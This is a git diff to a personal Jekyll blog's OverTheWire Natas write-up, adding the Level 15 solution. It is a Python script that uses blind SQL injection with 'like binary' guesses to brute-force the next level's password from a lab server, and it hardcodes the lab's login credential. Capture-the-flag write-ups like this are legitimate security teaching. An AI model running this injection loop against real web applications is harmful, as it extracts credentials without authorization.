

Before and after one commit to axiomiety/axiomiety.github.io, a Jekyll site: the page built from writeups/natas.markdown, in a window 1280 px wide and 1400 px high, scrolled down 1881 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some web fonts are replaced; before the commit the page ends 2585 px from its top, so only the background shows below that.

Commit message:
natas15 done

```diff
--- a/writeups/natas.markdown
+++ b/writeups/natas.markdown
@@ -110,3 +110,47 @@ SQL injection at last! This is pretty straight forward. The sql being run is def
 User input is passed straight in. Putting `" or "1"="1` forces the statement to always be true and yields the required result.
 
 ## Level 15 ##
+
+This level is slightly different. The only information we get from submitting the form can be boiled down to whether or not the sql query executed successfully. The source code does give us the schema of the users table, and we can use this to our advantage. Even though we can't get the snippet to show us the password, we can try each character in turn and validate our guess. It's clearly tedious to do that manually, but a little bit of python3 takes good care of the automation:
+
+{% highlight python %}
+    import urllib.parse
+    import urllib.request
+
+    url = 'http://natas15.natas.labs.overthewire.org/index.php'
+
+    # auth bit - pretty boiler plate
+    top_level_url = 'http://natas15.natas.labs.overthewire.org'
+    username = 'natas15'
+    password = 'AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J'
+    password_mgr = urllib.request.HTTPPasswordMgrWithDefaultRealm()
+    password_mgr.add_password(None, top_level_url, username, password)
+    handler = urllib.request.HTTPBasicAuthHandler(password_mgr)
+    opener = urllib.request.build_opener(handler)
+    urllib.request.install_opener(opener)
+
+    def tryit(pw):
+      post_data = {'username' : 'natas16" and password like binary "%s%%' % pw}
+      data = urllib.parse.urlencode(post_data)
+      binary_data = data.encode('ascii')
+      req = urllib.request.Request(url, binary_data)
+      response = urllib.request.urlopen(req)
+      the_page = response.read()
+      return 'This user exists' in str(the_page)
+
+    chars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789' # string.ascii_letters + string.digits
+
+    password = ''
+    while len(password) < 32:
+      for c in chars:
+        if tryit(password + c):
+          password = password + c
+          print('password starts with %s' % password)
+          break
+
+    print('full password: %s' % password)
+{% endhighlight %}
+
+Note that `mysql` doesn't exactly have a `startswith` function, so we use `like binary "<guess>%"'.
+
+## Level 16 ##
```
